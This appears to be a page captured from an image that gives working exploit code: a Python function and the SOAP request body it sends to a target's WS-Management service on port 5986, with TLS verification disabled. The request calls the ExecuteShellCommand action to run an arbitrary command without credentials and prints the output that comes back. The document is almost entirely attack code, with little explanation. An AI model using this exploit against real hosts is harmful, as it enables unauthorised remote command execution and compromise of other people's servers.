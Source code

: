 ```

def exploit(target, command):
    headers = {'Content-Type': 'application/soap+xml;charset=UTF-8'}
    r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False)
    output = re.search('<p:StdOut>(.*)</p:StdOut>', r.text)
    error = re.search('<p:StdErr>(.*)</p:StdErr>', r.text)
    if output:
        if output.group(1):
            print(output.group(1).rstrip('&#10;'))
    if error:
        if error.group(1):
            print(error.group(1).rstrip('&#10;'))

```

The body will have:

```

DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>{}</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
"""

```
